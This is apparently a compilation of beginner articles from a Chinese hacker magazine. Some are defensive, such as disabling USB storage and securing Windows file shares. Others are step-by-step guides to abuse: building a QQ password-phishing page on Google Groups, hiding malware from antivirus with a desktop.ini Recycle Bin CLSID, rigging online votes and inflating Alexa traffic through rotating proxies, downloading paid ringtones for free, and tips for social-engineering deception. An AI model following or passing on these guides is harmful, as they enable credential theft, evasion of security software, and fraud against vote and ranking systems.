上述设备了。不过，这个方法是完全禁止了 USB 接口的使用，也就是说各种 USB 接口的设备均无法使用了，当然也包括 U 盘和移动硬盘。由于此法过于霸道，请慎用。

### 方法二：禁止闪盘或移动硬盘的启动（适用于 Windows 2000/XP/2003）

在“运行”栏输入 regedit 打开注册表编辑器，依次展开到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR”分支，在其右侧找到名为“Start”项，双击它，在弹出的编辑对话框中将其数值修改为十六进制数值“4”（图1），然后点“确定”并关闭注册表编辑器，重新启动计算机，使设置生效。重启后当有人将 USB 存储设备连接到计算机时，虽然 USB 设备上的指示灯仍在正常闪烁，但在资源管理器中就是无法找到其盘符，因此也就无法使用 USB 设备了。


#### 方法三：隐藏盘符和禁止查看（Windows 系统）

打开注册表编辑器，依次展开到“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer”分支，新建二进制值，命名为“NoDrives”（图2）。其键值按位对应盘符，可通过设置值隐藏指定盘符（如 04 00 00 00 对应 C 盘，08 00 00 00 对应 D 盘，0C 00 00 00 对应 C、D 盘）。文中示例将值设为“02 ff ff ff”以隐藏除 A 外多个盘符，并说明仍可通过地址栏访问移动硬盘。

地址栏里输入 I:（我的电脑最后一个盘符是 H）还是可以访问移动硬盘的。大家可以看出，“NoDrives”只是个障眼法，所以我们还要多做一步，就是再新建一个二进制值“NoViewOnDrive”，将值改为“02 ff ff ff”，也就是把其值与“NoDrives”相同。这样一来，既看不到 U 盘盘符也访问不到 U 盘了。


#### 方法四：禁止安装 USB 驱动程序

打开 Windows 资源管理器，进入“系统盘:\WINDOWS\inf”目录，找到“usbstor.pnf”文件，右键“属性”→“安全”，在组或用户名中选择要禁止的用户组，在权限中勾选“完全控制”后的“拒绝”，确定。再对“usbstor.inf”执行同样设置。完成后，该组用户将无法安装 USB 设备驱动程序。


通过上述的四种小方法，就可以完全禁用 USB 设备了。


### 简单社会工程学之菜鸟体验

MISHELL［噩噩网络］

可以说，目前不被发现程序漏洞的概率比不被社会工程学欺骗的概率要高得多……下面我就给大家讲一下我所亲身经历的两件有关社会工程学的简单例子和心得。

#### 一、简单社工之我被骗

今年暑假闲时我到本地公安局的出入境管理科当了个打字员……这时打进来一个电话，是上一级领导 A 处长询问工作，电话挂掉后那人也没有继续要求办理，然后就离开了。

当天下午刚上班没多久就又接到了 A 处长打来的电话，说是上午那个需要开证明的人先给他办理了，等他回北京后再把证明快递过来。由于我对 A 处长的声音并不是很熟悉，而且出于那种工作中对领导的服从，没有对他的身份进行确认就答应了此事。当办理护照那人下午再来时就受理了他的护照，而他下午说话很少。第二天主管的阿姨给 A 处长说那人的护照资料已经录完了，可 A 处长却说他根本没有打过那个电话，还好那人向我拿资料没发出，要不就真的造成了一次骗领护照的案子了。

从上面的例子可以看出，下属对上级的服从和不怀疑是一个致命的弱点，在这一点上咱们可一定要注意了。就从利用上来讲，要对机构整体进行简单的了解，包括对方的姓名职务，条件允许的话还可以亲身前去探访下工作规律，以防止欺骗过早地被看穿。欺骗最好不要使用在需要长时间有效的方面，否则被拆穿的概率要大很多。而从防范上来讲，不要对任何自称上司的人不加怀疑，要对上司的真实性使用委婉的方式进行确认。

#### 二、简单社工之我骗人

这件事已经发生有段时间了，当时有一个非常要好的兄弟（就是有钱一起花，有事一起扛的那种），天天在网吧挂 QQ。他跟我说他每天早上去挂上，可到了中午再去网吧的时候 QQ 就被关掉了，天数也没怎么增长，我没在意，以为有人免费玩他那台电脑就把他 QQ 给关闭了。后来十一长假他出去旅游了，我懒得出去就躲在了家里。黄金周的第五天晚上他在 QQ 上给我发消息说他碰到点意外的事，手机和钱都被偷了，让我给一个不认识的手机里充 100 元的话费。

我记得他走的时候跟我说过他身上只有买车票的钱，其他的都在卡里呢，就随口问了一句：你身上多少钱被偷了？结果他说是 1000。我马上就想到了他不是我那个兄弟，肯定是网吧的电脑被种了 QQ 盗号木马，他把我那个兄弟的 QQ 给盗了。于是我回复说：今天太晚了，交费的都关门了，我也没有充值卡，明天上午再去给你充。

第二天上午我先给几个好哥们打电话让他们在一个移动交费处蹲点，然后我给那人发消息说我已经给那个移动号码充了 100 元钱，他当然说没有充上。我说我这边还有事，要不你去某某移动交费处问一下是怎么回事吧。他说好。经过 40 多分钟的等待，当我正叹气那小子可能不是本地人时，蹲点的兄弟打来了电话，说给那小子抓了个正着，现在正被他们堵在胡同里练飞脚呢。就这样 QQ 密码直接被问了出来，那小子也被练得眼泪汪汪的，让我出了气。

从这个例子中可以看出，如果要骗人的话一定要摸清你伪装的那个人的身份、动态和习惯，如果稍有不慎就会满盘皆输。在防范方面要注意周围人的习惯和细节，这样一精确到细节很多骗子都会露出马脚，然后再对骗子进行分析，没准就可以对骗子进行有力的打击了。

相信也有朋友曾经遇到过跟我类似的事情。其实社会工程学不光可以用在入侵上，只要是想达到目的都可以视情况来利用。有些事情不过是换了情景，使用相同的思路还是行得通。只要你善于观察，有耐心，善于思考，社会工程学将会是入侵中最锋利的一把剑。

## 论坛我就是免费的

### ——免费打造属于自己的个人论坛

在以前的黑客 X 档案上曾经介绍过 5D6D 的免费论坛，不过我个人认为那个并不怎么好，而且还有诸多的不便。经过小菜我的一番苦寻，终于在网上找到了一个非常不错的免费论坛。

我们打开 http://www.lunqun.com，页面如图1所示，在“免费论坛申请”中填写好相关的信息，这就和我们到各个网站注册差不多。注册完成后我们就会得到一个诸如 http://XXX.lunqun.com 形式的免费论坛了，只要在网址后面加上 /admin.php 就可以进入后台管理入口，如图2。另外，管理员登录论坛后也会在论坛右上角看到系统设置项，从那儿也可以登录后台的。


论坛申请好了，接下来就是添加论坛版块了，我们只要在后台点击“版块管理”→“添加新版块”→“所属分类”，然后提交即可。提醒一下大家，分类不加版块的话，在前台是不会显示的。我们还可以把论坛版块名称加上颜色，只要在版块管理中“编辑”相应的版块，然后在版块名称里输入 HTML 颜色代码即可。

```html
<font color="颜色代码">版块名</font>
```

现在论坛也开通了域名绑定功能，不过这必须通过与客服 QQ 交谈，让他给你添加才可以。更重要的是你的域名要备案成功后才行，没有备案是不能绑定域名的。可能大家会说，我要的就是自己的网站呀。我可以告诉大家，在域名里设置转向就可以解决问题了，如果没有域名的话也可以买一个，反正现在的 cn 域名已经到了白菜价的一元一年。我们还可以在模板管理中对 CSS 代码进行替换，如图3。官方网站中有许多 CSS 代码，不过都不怎么样，还不如使用别人的呢。我们可以直接查看自己所喜欢的论坛源文件，在源文件中以“<!--css-->”至“<!--css-->”中间的代码就是 CSS 源文件，将这些代码复制过来保存就行了，现在论坛的样式已经变了吧。最后我再来谈一次广告相关的问题，首先进入插件管理中心，找一个没用的插件，改成直接显示，然后把代码放在名称里，其他不要改动，直接提交就行了。怎么样，是不是很巧很强大，还不赶快去申请一个属于自己的免费论坛，最后祝大家玩得开心！


## 教小菜免费得到付费的手机铃声

qooitry

拥有一个好听的手机铃声是每一个小菜都希望的，虽然有一些免费的网站可以提供小菜下载铃声，但也有一些网站是收费的，一旦遇到了这样的网站我们该怎么办呢？

我就以 BSB 的一首 I want it that way 为例，来到这个叫做多普达俱乐部的网站，可以看到在这里下载铃声是要钱的，如图1。我们这些穷小菜可不想随便乱花钱，那要怎样才能免费下载到这个铃声呢？下面就请出本次的主角——影音神探。在浏览本页面的时候可以听到这个铃声，说明有播放器存在，并且在播放器某一地址有音频文件，那我们就可以使用影音神探把这个地址给嗅探出来。

影音神探的安装非常简单，一路 NEXT 就行了，安装完成后可能还需要安装 WinPcap 软件。安装完毕后首先要设置一下网络适配器，设置很简单的。然后点击“开始嗅探”，影音神探就开始工作了，这时我们只要刷新一下页面，铃声的真实下载地址就会被嗅探出来了，如图2。看到了吗？图中的红色链接就是铃声的真实下载地址，把它放到迅雷里就可以下载了。使用这种方法我们还可以下载更多需要付费的铃声（网页上需要有播放器才行），希望各位小菜手机里的好铃声越来越多！

（本文所涉及到的影音神探、WinPcap 已收录到光盘中）


### 浅入浅出之 Windows 共享

BaseNet

在网上曾看到过很多关于 Windows XP 共享的问题，本文我就做了一些简单的整理，希望能给需要的朋友提供一点帮助！

### 一：Windows 共享机制及共享问题解决思路

在 Windows XP 中存在三种共享方式和两种共享机制，三种共享方式分别为默认共享、简单文件共享和高级共享。对于网络安全来讲我们关注最多的是默认共享，在局域网的文件共享中，我们关注比较多的则是高级文件共享。默认文件共享是基于 Windows 的 server 服务，很多时候为了计算机的安全我们一般都会关闭默认共享……

- 传统的 NetBT（NetBIOS over TCP/IP）共享机制，使用 UDP 137、138 端口和 TCP 139 端口，通过 NETBIOS 协议进行地址解析。
- TCP/IP 上的直接承载（Direct Hosting of SMB Over TCP/IP）共享机制，使用 TCP 445 端口，通过 DNS 解析地址。

在默认状态下，Windows 会同时尝试这两种机制……知道了机制我们并不能完全解决所有共享中出现的问题，在遇到共享问题的时候我们必须要有一个解决问题的思路：首先需要排除硬件故障，其次要考虑网络协议、服务、端口问题，最后考虑账户验证、本地策略设置及权限分配问题。

### 二：Windows 高级共享及其验证机制

要使用 Windows 高级共享，首先要确保如下设置：

- 打开“我的电脑”→“工具”→“文件夹选项”→“查看”，去掉“使用简单文件共享（推荐）”前面的勾。
- 在“开始”→“运行”输入 secpol.msc，打开本地安全策略，依次定位到“本地策略”→“用户权限指派”，保证“拒绝从网络访问这台计算机”没有 guest 账户。
- 在本地安全策略中，定位到“安全选项”→“网络访问：本地帐户的共享和安全模式”，设置为经典；将“账户：使用空白密码的本地帐户只允许进行控制台登录”设置为“已启用”。

这样的设置只是 Windows XP 高级共享的一个前提条件……

很多时候我们使用高级共享是希望某个文件夹只能由某个特定账户按特定权限访问。通过上述设置可知，Windows XP 高级文件共享在很多时候都与默认账户状态有关，最明显的是 guest 账户。一次高级共享的过程，本质上基于 Windows 的 LSA 验证；在没有域控制器的局域网中，只要两台计算机上存在相同账户和密码就可访问。

看似复杂的过程其实在日常操作中经常遇到，比如网吧共享游戏目录时，在“运行”输入“\\ip\文件夹”即可访问，不需要输入密码。常见原因是客户端与服务器存在相同的账户和密码，或服务器权限设置不严。


### 三：实战——打造安全的文件共享服务器

对于文件共享的安全问题，先看建立安全文件夹的思路：

- 选择一台计算机，建立一个完全共享的文件夹，命名为 SHARE。
- 在 SHARE 文件夹下为每个用户建立一个文件夹，再分别建立“发送”和“接收”两个子文件夹。
- 所有者可完全控制“接收”文件夹，其他人只能复制文件不能查看。
- 所有者可完全控制“发送”文件夹，其他人只能查看。

##### 1、建立共享用户组

通过在文件服务器上建立本地组“shareusers”并对该组设置权限，可简化管理。在“我的电脑”中选择“管理”→“本地用户和组”→“组”，建立“shareusers”。

##### 2、在共享组中添加账户

打开记事本，将代码输入并保存为 netuser.bat。

```bat
net user test1 123 /add&&net localgroup shareusers test1 /ad
net user test2 123 /add&&net localgroup shareusers test2 /ad
net user test3 123 /add&&net localgroup shareusers test3 /ad
net user test4 123 /add&&net localgroup shareusers test4 /ad
```

##### 3、建立根文件共享文件夹

在服务器磁盘位置建立“share”文件夹并设置共享。默认状态下 everyone 具有完全控制权限，将其改为“只读”，这样所有用户都可连接该目录查找所需内容。

##### 4、使用批处理创建目录与权限设置

打开记事本，输入以下内容，将其保存为 `addir.bat`。

```bat
@echo off
start=md bat\test1
start=md bat\test2
start=md bat\test3
start=md bat\test4
```

再打开记事本，输入以下内容，将其保存为 `md.bat`。

```bat
md %1
md %1\接收
:: 用于将客户文件传输入某个特定的人
md %1\发送
:: 用户共享你的东西，方便所有人访问
cacls %1\发送 /e /r everyone
cacls %1\发送 /e /g share\users:w
cacls %1\发送 /e /g %1\f
cacls %1\接收 /e /r everyone
cacls %1\接收 /e /g share\users:w
cacls %1\接收 /e /g %1\f
```

然后在 share 文件夹下运行这两个批处理文件，如图2，查看 test1 文件夹下的接收文件夹权限，如图3，至此任务完成！


图2

通过上面的实战，相信大家都已经熟悉了如何设置共享文件的安全。下面是我对共享安全的一点建议。

#### 1、默认共享关闭需注意

对于默认共享，有很多用户是通过修改注册表或使用 `net share` 命令来删除。个人感觉不如将 server 服务设置为“已禁用”。将 server 服务进行权限设置，可以使用 process explorer，也可以使用 Windows 的 MMC。首先在“开始”→“运行”栏中输入 mmc 来打开控制台，选择“文件”→“添加/删除管理单元”，点击“添加”按钮，选择“安全配置和分析”，依次确定后进行管理。


图3


图4

打开的对话框上选择系统内置的安全模板文件，鼠标右键单击“安全配置和分析”管理单元，单击弹出菜单上的“立即分析计算机”，在弹出的对话框上点击“确定”，系统开始分析当前的安全配置。分析结束后进入如图4所示界面，在“系统服务”中右键点击“server”服务，选择“编辑安全设置”，就可以对其设置权限了（如图5）。很多网吧在制作系统母盘时都会从系统中删除这个服务，但很多时候服务器上可以轻松使用 `net share c$=c:\` 共享出来，我们需要注意这样的细节。


图5

#### 2、高级共享技巧性很强

几乎每一个公司、学校的局域网中都离不开共享（只要有网络的），这时候作为一个公司的网络管理员需要抓住高级共享的某些技巧。

- 为了方便用户管理，注意建立共享账户工作组，如上所示。当然如果建立域控制器会更方便。
- 共享文件的权限设置是关键的一步，对于共享文件说明白了就是一个独立文件，独立文件的权限设置自然是使用 `cacls` 命令，主要原因是可以实现批量操作。
- 注意共享账户工作组在服务器上的权限，很多网吧一开机都会从服务器下载运行很多管理类工具，这时候需要注意将客户机登录账户的权限设置为“只读”，以防止恶意修改，带来不必要的麻烦。


## 针刺未知U盘病毒最安全的打开方法

梁天爽


前几天，从同学的U盘上拷了些东西到自己的电脑上，然后使用公认的安全方法“鼠标右键→打开”打开了U盘，这样可以防止木马随着双击盘符而自启动，而且我的电脑上还安装了360安全卫士，插入U盘时还提示了一句“360安全卫士正在对您的U盘进行保护”，如图1。但是，出乎我意料的是，刚一点右键，鼠标和键盘就失灵了，接着就看到了卡巴斯基自动关闭保护并退出，360安全卫士也消失了，情况不妙，看来碰到新出的未知U盘病毒了，连一直使用的安全打开方法也失灵了。通过跟病毒群的努力斗争，发现了……一种新创的打开U盘的安全方法，不敢藏私，拿出来和大家分享！


首先在组策略中关闭自动运行功能，否则只要一插上U盘，就会自动打开U盘使病毒传播了。插入U盘后在“开始”→“运行”栏中输入“CMD”，打开命令提示符，如图2，然后输入“G:”（G为U盘的盘符，此命令为进入U盘所在盘符）回车，接着再输入“start.”（注意start后面有一个点“.”，此命令为打开U盘），如图3。这种方法对所有的盘符都管用。

为了验证打开方法的安全性，我又试验了几次。因为这个未知的U盘病毒，哪怕是用户使用“资源管理器”打开U盘，也会被激活。为确保这个方法真正管用，我搞定病毒后又把带毒的U盘重新插入到电脑上，使用上述的方法打开U盘，果然病毒还在，但是没有被激活。因为它是一种非常规的打开方式，在病毒的激活代码中并没有涉及到其打开内容，因此也就证明了这种打开U盘方法的安全性。

最后提醒大家，新的U盘病毒越来越先进了，所以打开方法也要与时俱进，这样才能更好更有效地避免电脑中招。

### 文件的另类隐藏

杨祝令


#### 一、前言

话说暑假期间，闲着没事就到了一家软件公司上班。公司为每位员工都配备了一台电脑，当然是为了方便我们写程序。可公司里也不是时时都有项目任务的，所以大多数时候我们都在使用电脑聊天、下载学习资料等，但是公司的制度是不允许这样做的，于是我们每次玩的时候都偷偷摸摸，资料下载后也立刻拷贝到U盘上。


#### 二、奇怪图标

某一日，电脑重启后桌面上的图标发生了变化，其中“天天向上”应该是与其他三个文件夹一样的图标，但现在却变成了与“回收站”一样的图标，如图1。我双击打开后，发现它与“回收站”的窗口是一模一样的，而我以前存放在文件夹里的东西却都不见了，如图2。

我分别使用右键单击了“回收站”和“天天向上”，发现它们的弹出菜单并不相同，如图3、图4。我猜想这个文件夹是否被关联成了回收站；如果是的话，那么在注册表里应该会有相应的注册键值，于是我便打开了注册表进行搜索，结果注册表里什么都没有找到。


Vista双系统，所以我便切换到了Windows XP系统下，结果桌面图标的显示情况还是一样的（我的Vista和Windows XP共用一个桌面文件夹），所以我便推测应该是有某个程序对文件夹本身进行了操作，而与系统的关联情况无关。

其中的“如果你害怕黑暗现在回头还来得及”我怎么都没想明白是做什么用的。在看到“妖怪设置了会员炫铃”这个熟悉的字幕后，我突然想起来，出问题的那天我正在满负荷测试一个数据库程序，刚好有个好友上线，在弹会员炫铃的时候把电脑卡死机了。我想应该就是那一刻某一个程序出错而把这个文件给改了。执行 `del e:\系统\desktop\天天向上\desktop.ini /f /q` 命令删除该文件，重新刷新一下桌面后便恢复正常了，如图8。

#### 三、真相大白

知道了是文件夹本身出的问题，我便开始针对文件夹本身进行相关的测试。既然在窗口模式下打开的是回收站，那么在命令提示符下打开又会是怎样呢？于是我打开CMD命令提示符进入了“天天向上”这个目录，结果令我很欣喜，原本存放在这个文件夹里的文件全部都还在，如图5。


突然我想起了 `desktop.ini` 这个文件，它是用于个性化文件夹的信息文件，于是便执行 `attrib -a -s -h e:\系统\desktop\天天向上\*.*` 命令把它显示了出来（我桌面文件夹路径是 `e:\系统\desktop`，通过修改注册表 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Session Manager` 路径下的desktop键值实现），再一次查看目录，果然多了这个文件，如图6。立刻执行 `type e:\系统\desktop\天天向上\desktop.ini` 命令查看它的内容，如图7。其中“CLSID={645FF040-5081-101B-9F08-00AA002F954E}”便是定义文件夹的所属组件类，其中的数字便是“回收站”的组件类代码，这个问题终于清楚了。

```bash
del e:\系统\desktop\天天向上\desktop.ini /f /q
attrib -a -s -h e:\系统\desktop\天天向上\*.*
type e:\系统\desktop\天天向上\desktop.ini
copy *.exe e:
```


#### 四、巧妙利用

这事引起了我的思考，既然这个文件夹被系统认为是回收站，那么杀毒软件会不会检查它下面的文件呢？于是我立刻找了一个会被杀毒软件查杀的病毒，如图9，使用 `copy *.exe e:\系统\desktop\天天向上` 命令把它拷贝到“天天向上”（回收站图标）文件夹中，然后使用杀毒软件查杀整个“desktop”目录，结果杀毒软件居然毫无反应……这样的话，我们便可以把自己的黑客工具和各类文件都存放到这个特殊的文件夹下，除了不会轻易被人发现外，连杀毒软件也不会过问。

```bash
echo [.ShellClassInfo]>desktop.ini
echo CLSID={645FF040-5081-101B-9F08-00AA002F954E}>desktop.ini
```

这样两个命令，把桌面变成回收站，杀毒软件就不会过问了，也省去了我们经常制作免杀的麻烦。

#### 五、总结

我后来又继续进行测试，发现除了可以伪装成回收站外，还可以伪装成系统中的任何一个组件的图标……这些CLSID值在网上都可以查到，这里就不一一列举了。


奥运会网游的举办了，各大商家也纷纷借着奥运会宣传造势，网上的活动越来越多。我就参加了一个阿迪达斯举办的大型助威活动，就是使用自己的3D头像，结合其他网友一起组成、拼出一幅为中国加油的拼图……所以，我们也要通过技术手段来赢得胜利。


如图2，现在就要想办法换个IP来继续投票了。大家比较熟悉的一个突破IP限制的方法就是断开网络连接后再重新连接……所以我就想到了使用代理的方法来在内网中刷票。


我从网上找了几个WEB代理，可惜都是只能打开网页，但一点击投票就无法找到网页了，看来还得请出我们的“代理超人”。打开代理超人，如图3，选择“搜索”下的“搜索代理”，如图4，然后就是……

慢慢等待代理超人自动搜索代理服务器，在下面会列出搜索的进度并同时不断地列出代理列表，如图5。我们先选择第一个代理，点击右键，选择“启用代理”，如图6。回到刚才投票的网页，刷新一下页面，然后点击投票，我们高兴地看到，投票成功了，如图7。这样，我们又可以使用这个代理IP投20票了。投完这20票后，我看了一下代理超人，共有270个代理，再换一个代理，继续来投票，这样一天下来就可以刷：270×20=5400票了。哈哈，现在最高的队伍才2000多票，所以我刷到5000票就差不多了，省得和个几十万票引起别的站点的怀疑。


图6


图7

不过，手动换IP刷票是不是很累呢？我们的最终目的是无人值守的全自动刷票，所以后面还要做一些工作。估算一下20票的时间，一票是3秒，那么20票就是60秒，考虑到代理网速不稳定的因素，我们取50秒刷20票这个数值。打开代理超人，选择“使用”→“定时切换”→“开始”，然后设置定时50秒，这样每过50秒就会自动更换代理了，如图8。

可能在50秒之内已经刷完20票而导致无法投票，所以我们更换时间要计算得稍微短一点，这样无非是一个代理IP没投完20票而浪费了一点，但是一共有270个代理呢，怎么算也够用了，这样就避免了因不能投票而耽误刷票的速度。


图8

设置好代理超人的自动更换后，我们就可以安心地把代理超人放到托盘区去刷票了，打开网页，点上投票按钮，然后一直按住回车，就会不断出现投票成功的提示，回车确认之后继续投票，投票频率不要太高，不然会导致无法投票的情况出现，最好是按一票隔一秒钟后再按。这样反复循环，投大概20票的时候代理就会自动更换，然后按一下F5刷新网页，继续重复以上的动作，这样是不是也很累呢？需要一个人浪费时间一直看着它，尽管省去了换IP的麻烦，但是还是要手动投票。既然我们连工作流程都分析出来了，那就不用去担心手动的麻烦，编个程序好了：点击投票按钮→弹出投票成功→按下回车确定投票成功→等待一秒钟后继续点击投票→确认投票成功→循环20次→按下F5刷新网页→等待7秒钟网页刷新时间→继续重复投票。我们可以根据以上步骤编写一个脚本，对于这种简单的程序推荐使用按键精灵，即使是免费版本也是够使用了，编程过程十分简单，用鼠标键盘操作流程录制一个循环然后设定好启动和结束热键就可以了，这里就不浪费宝贵的版面去具体介绍了。

对于宽带个人用户来讲，我还是推荐使用这种不换真实IP而用代理的刷票方法，因为断开连接再重新开启很费时间，不利于批量操作。还是使用代理的方法比较简单快速，而且全程可以无人值守自动刷票。设置完这一切，我们就可以轻松地去看奥运比赛了。现在无论是腾讯还是其他网站都有许多类似投票选秀的活动，这种活动本身的质量要求不是很高，关键是人气，总麻烦朋友也不是个事，票数有限，不如使用这种方法去投个几万票，得个大奖什么的都很方便。最后说一下，目前网上一大堆卖刷票的组织，百度一搜就看见好多，平均2分钱一票，支付定2块钱一结账。全自动投票方法我是教给大家了，有兴趣的去赚赚零花钱也不错哟。

（本文所涉及到的代理超人、按键精灵已收录到光盘中）

## QQ钓鱼？从GOOGLE说起

无敌小龙

QQ上一陌生人无意间发来了一个地址“http://groups.google.com/group/scev”，说是赠送QB。因为是GOOGLE的链接，所以我实在无法和钓鱼或者诈骗相联系起来，我断定它的可信度还是蛮高的，于是欣然前往。可以看到是腾讯网组织的送QB活动，如图1。我当时还在想，腾讯和GOOGLE都有“联系”了？看来GOOGLE的本土工作做得还真不错，深入组织，深入人民群众啊！根本没有想到这会是个钓鱼页面，能把我这样高安全意识的人骗到，还真不容易呀（我以前可是从来没信过免费送QB的，呵呵）！


图1

我毫不犹豫地点击了“点击领取QB”这个链接，来到了“http://ses.mo.cn/qq.com/login2.asp”，如图2。居然要求我输入QQ号码和密码进行登录，这引起了我的警觉，感觉这个页面有可能是个利用GOOGLE来钓鱼的页面。


图2

我二话不说，就来到了“http://groups.google.com/”去看看这到底是个什么样的网页服务，打开后才知道这是GOOGLE提供的论坛形式的网页服务。点击其中的“创建论坛”，就可以创建一个讨论组了，如图3。既然如此，那我们也来创建一个GOOGLE的欺骗网页吧！


图3

点击“创建论坛”后，就来到了“https://www.google.com/groups/signin?login_required=1&passive=true&done=http%3A%2F%2Fgroups.google.com%2Fgroups%2Fcreate%3Flink%3Dgcphpq&cd=US&hl=en”，如图4。按照图中的填写方法填写完毕后，就可以点击提交按钮了。


图4

此时可以看到已经创建了一个主页，其中有“讨论”“成员”“页面”“文件”“设置”项目，把它们都删除掉，也就是点击后面的“X”按钮，不然的话这些链接等会儿就会在前台显示出来，也就无法显示出刚才那个钓鱼页面的形式了，如图5。


图5

现在来到刚才的那个钓鱼网页，在图片上点右键，可以得到它的网络地址，如图6。分别得到了两个地址，如下：

- http://img1.qq.com/news/pics/9499/9499744.gif  
- http://7iqq.cn/qb.jpg

来到主页中，点击其中的“edit welcome message”链接，也就是编辑欢迎语，来到编辑页面，如图7。此时选择“IMAGE”按钮，在弹出的“ADD AN IMAGE”（增加图像）窗口中不要选择“UPLOAD IMAGES”（上传图片），选择“WEB ADDRESS”（网络地址），也就是使用一个图片地址来显示地址，这样做的好处就在于，如果选择上传图片，那么会在你的主页显示图片文件的下载链接，这样的话，钓鱼页面就不完美了。

成了，把“http://groups.google.com/group/xiaolong_test”发给“鱼儿”们，谁又能猜测出这是个欺骗页面呢，它可是完完全全的GOOGLE链接呀，如图10。


按照同样的方法，点击“LINK”按钮，可以添加自己的钓鱼页面，也就是把自己收取QQ账户和密码的页面链接到这里，如图8。


现在就可以访问“http://groups.google.com/group/xiaolong_test”了，可以看到已经和刚才的钓鱼网页差不多了。不过为了模仿得更逼真些，我们还要修改一些地方，点击“GROUP SETTING”（组设置）链接，如图9，可以设置它的首页颜色，这里我们选择设置为红色。最后我们来浏览一下“http://groups.google.com/group/xiaolong_test”，可以看到一个使用GOOGLE的钓鱼网页已经完……

## 零工具反彩虹QQ探隐身


随着QQ使用的普及，和QQ相关的软件也是越来越多，彩虹QQ是IP版就是一款很不错的软件，它可以显QQ隐身好友和IP地址。这是非常好的功能，但是有时候我们并不想让别人看到我们正在隐身，那该怎么办呢？现在我就给大家介绍一种不使用任何工具反彩虹QQ探隐身的方法。

首先登录QQ，我就使用我自己的QQ大号和小号进行试验了，在小号的状态中选择隐身，然后在大号中把鼠标光标移动到小号的地方，如图1，可以看到他是在隐身状态。接下来就是我们发挥的时候了，双击电脑右下角的时间，打开日期和时间属性窗口，如图2。我们把日期时间改为试试，比如我把时间改为了十二月，2020年。然后点击确定，现在系统时间就变成2020年的12月8日了。此时我们在小号的状态栏中选择“我在线上”，然后再选择“隐身”，为了确保成功，我重复进行了5次以上的动作。现在再来看，成功了，出现了上次登录的地址和“对方不在线”的提示，如图3。


## 一个月让网站挺进 Alexa 排名前10万

无敌小龙


随着在网上架设网站的难度和费用的降低，许多小菜都拥有了属于自己的个人网站。有了自己的网站，自然是希望它们的流量越多越好，ALEXA 排名越高越好。可是网站刚建成没多久，没有多少人知道，访问量实在是有限，我们如何才能使自己的个人小站快速地提升排名，挤进 ALEXA 排名前10万呢？答案就是刷流量！

刷流量有很多种方法，最适合小菜的就是使用代理服务器来刷，因为这样刷出来的流量是完全真实的，不会被 ALEXA 排名机构认为是作弊。要使用代理服务器来刷流量，首先就是要收集代理服务器地址……点击“导出”按钮，程序就会将这些代理服务器地址自动保存为 PROXY.TXT 文件。接下来需要验证这些代理服务器是否可用……


图3


图1

打开代理猎手，之所以选择使用代理猎手，是因为它的代理检测速度非常快。点击“导入结果”按钮，选择刚才保存的 PROXY.TXT 文件……然后点击“验证全部”……再点击“精简结果”……这样我们就得到了很多不错的代理地址列表了，最后使用代理猎手的“导出结果”功能把这些精简出的结果保存为 PROXY2.TXT 文件。

为了能够显示本次刷流量的真实性，我选择使用百度的 BLOG 来进行演示。在刷之前可以看到当前的今日访问量为17……打开我编写的一款刷流量器工具，点击“载入列表”按钮，选择刚才保存的 PROXY2.TXT 文件……然后点击“测试”按钮，就可以看到程序开始刷流量了。该程序的原理是通过多线程方式连接代理服务器……从而让代理服务器分别去访问目标网站，这样就会刷出很多真实的流量。


图4


图2


图5

填写2，也就是每两秒钟刷一次；“循环次数”填写2，也就是使用所有的代理服务器列表循环刷两次，最后点击“开始”按钮就开始刷流量了，如图12。等待一段时间后，我们再来到 pespin.ys168.com 中，可以看到当前在线有40人，刷流量的效果还是非常棒的，如图13。


我查看了一下系统的当前时间，为夜晚1:29分，也就是刷一个小时，流量就有506了。照这样下去一个小时就有500多的流量，一天24小时，那差不多就有12000的流量了。而日访问量8000的独立 IP 地址的网站，几乎就可以进入 ALEXA 排名的前10万，因此12000的流量足以让你挺进前10万的排名了。我们来到 http://www.123cha.com，查一下 hack58.com 的 ALEXA 排名，可以看到是12万名，如图8。但是，查看它的流量，却是在6000—8000之间，如图9。也就是说只要流量超过1万独立 IP，就可以轻易挺进前10万了。


我再来介绍一款专业级的刷排名工具“ALEXA 排名大师”，如图10。首先把代理服务器的 IP 地址填写到“代理设置”文本框中。在刷之前来看看我的赤硕网络硬盘“http://pespin.ys168.com/”，可以看到访问量是627，在线1人，也就是我自己，如图11。我们回到 ALEXA 排名大师的“访问设置”中，在要提升 ALEXA 排名的网址中输入 pespin.ys168.com，在“间隔时间”中填写2。


本文介绍了两种刷流量的方法，大家只要找到足够多的代理服务器，然后进行一下工具的组合，就一定可以使自己网站的流量和 Alexa 排名迅速提升。

### 免费电话在线打

前几天 QQ 上的一位网友发给了我一个可以在线打免费电话的网站。我试了下感觉非常不错，今天就特意写出来与小菜鸟分享！

首先我们登录它的官方网站 http://evaphone.com/，网站界面很简洁，使用也非常简单，不需要下载任何软件，也不需要注册，支持直接在线拨打。

选择要拨打电话的国家，然后在电话框中输入国家代码+电话号码或手机号（注意区号前和手机号前都不带0）。输入完整号码后，点击绿色电话按钮即可拨打。


电话拨通前会先播放一段约10秒的英文广告。最后提醒：evaphone 每天每个 IP 只能拨打两个电话，且通话时长受限制。

一个小方法就是利用代理服务器来拨打电话，这样就可以拨打多次了。还在等什么，快快拨打免费电话吧！

## 一款免费的 VPN——relakks

记得在今年第5期的《黑客X档案》上曾介绍过一个英国的免费 VPN——Linkideo，速度很不错。我很喜欢它，但后来发现已不再提供免费服务。

现在免费的 VPN 越来越难找了，好友推荐了 relakks。虽然速度不如 Linkideo，但仍可使用。下边就详细介绍如何申请和使用。

relakks 是由瑞典的 VPN 服务商提供的，每个注册用户都可以免费试用30天，试用期满后还可以再次申请继续试用。

打开官方网站 https://www.relakks.com/，网页默认语言较难辨认，可在左上角切换成英文后阅读和操作。


